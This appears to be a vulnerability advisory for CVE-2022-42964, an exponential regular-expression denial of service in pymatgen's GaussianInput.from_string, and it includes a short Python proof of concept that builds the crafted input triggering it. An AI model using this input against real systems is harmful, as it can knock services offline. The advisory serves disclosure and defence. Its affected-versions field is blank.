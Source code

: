 ```yaml
---
description: CVE-2022-42964 Medium severity. Exponential ReDoS in pymatgen leads to denial of service
title: pymatgen ReDoS
date_published: "2022-10-15"
last_updated: "2022-10-15"
xray_id: XRAY-257184
vul_id: CVE-2022-42964
cvss: 5.9
severity: medium
discovered_by: Denys Vozniuk
type: vulnerability

---
```


## Summary

Exponential ReDoS in pymatgen leads to denial of service

## Component

[pymatgen](https://pypi.org/project/pymatgen)

## Affected versions

pymatgen (,)

## Description

An exponential ReDoS (Regular Expression Denial of Service) can be triggered in the pymatgen PyPI package, when an attacker is able to supply arbitrary input to the `GaussianInput.from_string` method

## PoC

```python
import time
from pymatgen.io.gaussian import GaussianInput

def str_and_from_string(i):
    ans = """#P HF/6-31G(d) SCF=Tight SP

H4 C1

0 1
"""
    vulnerable_input = ans + 'C'+'0' * i + '!'+'\n'
    GaussianInput.from_string(vulnerable_input)

for i in range(1000):
    start = time.time()
    str_and_from_string(i)
    print(f"{i}: Done in {time.time() - start}")
```



## Vulnerability Mitigations

No mitigations are supplied for this issue

## References

[NVD](https://nvd.nist.gov/vuln/detail/CVE-2022-42964)